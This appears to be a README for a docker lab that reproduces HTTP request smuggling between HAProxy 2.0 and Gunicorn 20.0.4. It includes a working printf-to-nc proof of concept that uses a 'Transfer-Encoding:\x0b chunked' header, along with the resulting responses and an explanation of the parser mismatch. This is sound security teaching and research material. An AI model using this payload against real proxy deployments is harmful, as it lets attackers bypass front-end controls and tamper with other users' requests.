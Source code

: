 #	LAB3

##	Composition

1.HaProxy 2.0

2.Gunicorn 20.0.4

##	Usage

###	build

```bash
docker-compose up
```

###	check

```bash
$ chmod +x check.sh;./check.sh|grep HTTP
HTTP/1.1 200 OK
HTTP/1.1 200 OK
```

9 HTTP code 200 means all right! 

Enjoy!

###	POC
```bash
printf 'POST / HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Transfer-Encoding:\x0b chunked\r\n'\
'Connection:keep-alive\r\n'\
'Content-Length: 65\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
'POST / HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Content-Length: 1\r\n'\
'\r\n'\
'0'\
| nc 127.0.0.1 9013
```

You will get two responses.

```http
HTTP/1.1 200 OK
Server: gunicorn/20.0.4
Date: Mon, 06 Jul 2020 07:45:37 GMT
Connection: keep-alive
Content-Type: text/html; charset=utf-8
Content-Length: 0
```

```http
HTTP/1.1 200 OK
Server: gunicorn/20.0.4
Date: Mon, 06 Jul 2020 07:45:37 GMT
Connection: keep-alive
Content-Type: text/html; charset=utf-8
Content-Length: 1

0
```



For haproxy, the following http request is just one request. It will ignore the `Transfer-Encoding` header and use `Content-Length` header to parse the post body. And more importantly, haproxy will pass the `Transfer-Encoding:[\x0b] chunked` to backend server gunicorn.

```http
POST / HTTP/1.1
Host: localhost
Transfer-Encoding:[\x0b] chunked
Connection:keep-alive
Content-Length: 65

0

POST / HTTP/1.1
Host: localhost
Content-Length: 1

0
```

So, for gunicorn, the http request are two requests because it use `Transfer-Encoding` header to parse the post body. The first request is this.

```http
POST / HTTP/1.1
Host: localhost
Transfer-Encoding:[\x0b] chunked
Connection:keep-alive
Content-Length: 65

0
```

The second request is this.

```http
POST / HTTP/1.1
Host: localhost
Content-Length: 1

0
```



For details, you can build a echo server instead of gunicorn to see how haproxy deal with the `Transfer-Encoding:[\x0b] chunked` header.

#	Reference

[HAProxy HTTP request smuggling](https://nathandavison.com/blog/haproxy-http-request-smuggling)

[DefCon 2020 Quals uploooadit](https://github.com/o-o-overflow/dc2020q-uploooadit)



